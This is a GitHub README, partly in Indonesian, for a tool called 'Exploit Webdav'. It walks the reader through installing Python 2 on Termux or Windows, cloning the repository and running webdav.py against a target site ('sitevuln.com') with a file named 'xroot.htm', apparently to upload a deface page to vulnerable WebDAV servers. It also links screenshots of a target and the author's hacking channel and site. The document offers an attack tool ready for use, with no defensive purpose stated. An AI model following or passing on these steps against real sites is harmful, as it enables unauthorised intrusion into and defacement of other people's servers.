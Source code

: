 # Exploit Webdav Windows & Termux Working

# Eksekusi via Termux

pkg update && pkg upgrade

pkg install python2

pkg install openssl curl

pkg install libcurl

pip2 install urllib3 chardet certifi idna requests






git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod +x webdav.py

python2 webdav.py sitevuln.com xroot.htm

================================================================================
# Eksekusi via Window

Download Python27 : https://shortid.co/bFWBm

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod 777 webdav.py

python webdav.py sitevuln.com xroot.htm

================================================================================
# Screenshot Via Windows
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/webdav.png)

# Screenshot Target Webdav
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/target.png)

My Youtube    : https://www.youtube.com/channel/UCKdOPQ_iIXcqK17PB_2RMdQ

Link Tutorial : 

My Website    : http://hackingforlive.cf,,https://hackingforlive.wordpress.com

My Facebok    : https://web.facebook.com/xroot.xroot.7

Moto : Berbagi Itu Indah

Regard Boychongzen aka Xroot
